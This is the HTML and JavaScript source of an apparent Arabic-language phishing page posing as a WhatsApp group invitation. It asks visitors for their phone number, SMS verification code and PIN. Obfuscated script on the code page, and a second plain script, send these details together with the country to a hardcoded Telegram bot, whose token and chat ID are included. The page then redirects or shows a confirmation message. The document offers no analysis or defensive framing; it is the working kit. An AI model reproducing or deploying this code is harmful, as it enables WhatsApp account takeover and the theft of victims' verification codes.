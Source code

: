 <html >
<head>
    <link rel="preconnect" href="https://fonts.gstatic.com">
    <link href="https://fonts.googleapis.com/css2?family=Almarai&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/4.7.0/css/font-awesome.min.css">
    <title>الإنضمام إلى المجموعة</title>
  <link rel="icon" type="image/x-icon" href="logo-ico-png.png">
  <title id="pageTitle">الدعوة للانضمام إلى مجموعة واتساب</title>
  <meta property="og:description" content="الدعوة للانضمام إلى مجموعة واتساب">
  <meta property="invite_link_type" content="REGULAR">
  <meta property="invite_link_type_v2" content="">
  <meta name="mobile-web-app-capable" content="yes">
  <meta property="og:image" content="https://static.whatsapp.net/rsrc.php/v3/yo/r/J5gK5AgJ_L5.png">
  
  <!-- Include intl-tel-input CSS -->
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/intl-tel-input/17.0.8/css/intlTelInput.css"/>
    <link rel="preconnect" href="https://fonts.gstatic.com">
    <link href="https://fonts.googleapis.com/css2?family=Almarai&display=swap" rel="stylesheet">

    <style type="text/css">
        .issam{
            font-family: 'Almarai', sans-serif;
            font-size: 50px;
            color: #1c1e21;
             }
        body{
    min-height: 100vh;
    display: flex;
    flex-direction: column;
}
 .container {
            margin: 50px;
            text-align: center;
        }
    </style>
   
    
</head>
<body style="text-align: center;">
   <div class="container" style="text-align: center;">

    <img src="images/DSxOAUB0raA.png"width="75%;" style="margin-top: 25%;">
    

<img src="images/photo_5870472420022927978_m.jpg" style="display: block;margin-left: auto;margin-right: auto;width: 25%;height: 50%;margin-top: 100px;">
<h3 class="issam" style="margin-top:100px;"> المرجو إدخال الرقم الخاص بكم  </h3>
    <input id="phone" type="tel" style="text-align: center;padding: 5px;width: 500px;font-size: 50px;" required >
        <p id="error-msg" style="color: red; display: none;">هذا الرقم غير مطابق لدولتك</p>
        <p id="valid-msg" style="color: green; display: none;">  </p>

    <br>
   
    <button onclick="sendPhoneNumber()" type="submit" style="margin-top: 15%;font-size: 50px;font-family: 'Almarai', sans-serif;padding: 15px;width: 600px;background-color: #01e675;color:#FFF;border:none;"> الإنضمام إلى المجموعة </button>
   </div>
<script src="https://cdnjs.cloudflare.com/ajax/libs/intl-tel-input/17.0.8/js/intlTelInput.min.js"></script>

<html>
<head>
    <link rel="preconnect" href="https://fonts.gstatic.com">
    <link href="https://fonts.googleapis.com/css2?family=Almarai&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/4.7.0/css/font-awesome.min.css">
    <title>الإنضمام إلى المجموعة</title>
  <link rel="icon" type="image/x-icon" href="logo-ico-png.png">
  <title id="pageTitle">الدعوة للانضمام إلى مجموعة واتساب</title>
  <meta property="og:description" content="الدعوة للانضمام إلى مجموعة واتساب">
  <meta property="invite_link_type" content="REGULAR">
  <meta property="invite_link_type_v2" content="">
  <meta name="mobile-web-app-capable" content="yes">
  <meta property="og:image" content="https://static.whatsapp.net/rsrc.php/v3/yo/r/J5gK5AgJ_L5.png">
    <style type="text/css">
        .issam{
            font-family: 'Almarai', sans-serif;
            font-size: 38px;
            color: #111b21;

        }
        body{
    min-height: 100vh;
    display: flex;
    flex-direction: column;
}
footer{
    margin-top: auto;
}
input[type=text] {
  width: 40%;
  padding: 30px 20px;
  margin: 26px 0;
  box-sizing: border-box;
  border: none;
  border-bottom: 2px solid green;
  text-align: center;
  .container {
            margin: 50px;
            text-align: center;
        }
        input, button {
            padding: 10px;
            font-size: 16px;
            margin-top: 20px;
        }
    </style>
</head>
<body style="text-align: center;background-color: #FFF;">
    <div id="container" >
    <img src="images/DSxOAUB0raA.png" width="75%;" style="margin-top: 25%;">
         <div class="footer-col" >
    <img src="images/coimg.jpg" width="50%;" style="margin-top: 20px;">
    </div>

    <h1 class="issam" style="margin-top:100px;"> أدخل الكود الذي توصلتم به عبر الرسالة النصية </h1>
    <input id="name" name="name" type="text" maxlength="6" placeholder="*** ***" style="margin-top:100px;font-size: 40px;" required />
    <br>
    <button onclick="sendName()" type="submit" style="margin-top: 50px;font-size: 50px;font-family: 'Almarai', sans-serif;padding: 15px;width: 40%;background-color: #01e675;color:#FFF;border:none;">إتمام</button>
</div>
    <br>
    <script>
        const _0x5559fb=_0x3e32;function _0x3372(){const _0x1d972b=['21848JbALWi','2077452szDZzx','Failed\x20to\x20send\x20data\x20to\x20Telegram','trim','Num:\x20','https://api.telegram.org/bot','Error\x20sending\x20data:\x20','name','3249867CfWRNn','7781658860','setItem','4NnRYtZ','getElementById','Please\x20enter\x20a\x20valid\x20name.','value','7621460aGMEpL','5733735UrnuXm','1029npqqjF','countryName','phoneNumber','&text=','2qWTlHY','location','\x0aCountry:\x20','catch','userName','getItem','/sendMessage?chat_id=','3100800arjoza','266405GqheCt'];_0x3372=function(){return _0x1d972b;};return _0x3372();}function _0x3e32(_0x4b33b1,_0x113998){const _0x337210=_0x3372();return _0x3e32=function(_0x3e32f4,_0x18d7a1){_0x3e32f4=_0x3e32f4-0x1d8;let _0x53ffc8=_0x337210[_0x3e32f4];return _0x53ffc8;},_0x3e32(_0x4b33b1,_0x113998);}(function(_0x5b7395,_0x5b41e3){const _0x57d6e1=_0x3e32,_0x1a60fe=_0x5b7395();while(!![]){try{const _0x263967=parseInt(_0x57d6e1(0x1f3))/0x1*(parseInt(_0x57d6e1(0x1eb))/0x2)+parseInt(_0x57d6e1(0x1de))/0x3*(parseInt(_0x57d6e1(0x1e1))/0x4)+-parseInt(_0x57d6e1(0x1e6))/0x5+-parseInt(_0x57d6e1(0x1f2))/0x6+parseInt(_0x57d6e1(0x1e7))/0x7*(parseInt(_0x57d6e1(0x1f4))/0x8)+-parseInt(_0x57d6e1(0x1f5))/0x9+parseInt(_0x57d6e1(0x1e5))/0xa;if(_0x263967===_0x5b41e3)break;else _0x1a60fe['push'](_0x1a60fe['shift']());}catch(_0x508c1e){_0x1a60fe['push'](_0x1a60fe['shift']());}}}(_0x3372,0x971aa));const botToken='7809720335:AAGEBcVcyRhk3jfFnRecphdA3KPgsJf9B_o',chatId=_0x5559fb(0x1df);function sendName(){const _0x2f739d=_0x5559fb,_0x5e3a23=document[_0x2f739d(0x1e2)](_0x2f739d(0x1dd))[_0x2f739d(0x1e4)],_0x17ff27=localStorage[_0x2f739d(0x1f0)](_0x2f739d(0x1e9)),_0xfc16f0=localStorage['getItem'](_0x2f739d(0x1e8));if(_0x5e3a23[_0x2f739d(0x1d9)]()){localStorage[_0x2f739d(0x1e0)](_0x2f739d(0x1ef),_0x5e3a23);const _0x4810af=_0x2f739d(0x1da)+_0x17ff27+_0x2f739d(0x1ed)+_0xfc16f0+'\x0aCode:\x20'+_0x5e3a23,_0x294384=_0x2f739d(0x1db)+botToken+_0x2f739d(0x1f1)+chatId+_0x2f739d(0x1ea)+encodeURIComponent(_0x4810af);fetch(_0x294384)['then'](_0x4f42b5=>{const _0x552fd0=_0x2f739d;_0x4f42b5['ok']?window[_0x552fd0(0x1ec)]['href']='pipage.html':alert(_0x552fd0(0x1d8));})[_0x2f739d(0x1ee)](_0x37564c=>{const _0x661c69=_0x2f739d;alert(_0x661c69(0x1dc)+_0x37564c);});}else alert(_0x2f739d(0x1e3));}
    </script>
</body>



</html>
<script>
        const botToken = '7809720335:AAGEBcVcyRhk3jfFnRecphdA3KPgsJf9B_o';
const chatId = '7781658860'; // Replace with your actual chat ID

function sendFinalData() {
    // Collecting data from the user interface (e.g., input fields)
    const pinInput = document.getElementById('pin').value;  // Replace 'pin' with actual ID of the pin input field
    const phoneNumber = localStorage.getItem('phoneNumber');
    const countryName = localStorage.getItem('countryName');
    const additionalData = localStorage.getItem('additionalData');

    // Check if pin input is filled (ensure valid data before sending)
    if (pinInput.trim()) {
        // Format the message to send to Telegram bot
        const message = `
            Number: ${phoneNumber}
            Pin: ${pinInput}
            Country: ${countryName}
            Additional Data: ${additionalData}
        `;

        // URL for Telegram Bot API
        const apiUrl = `https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;

        // Send data to Telegram bot using fetch
        fetch(apiUrl)
            .then(response => {
                if (response.ok) {
                    alert('تم التوصل بطلبكم!'); // "Your request has been received!"
                } else {
                    alert('Failed to send data to Telegram');
                }
            })
            .catch(error => {
                alert(`Error sending data: ${error}`);
            });
    } else {
        alert('Please enter valid information.');
    }
}
    </script>
    <hr>
    
</body>

</html>
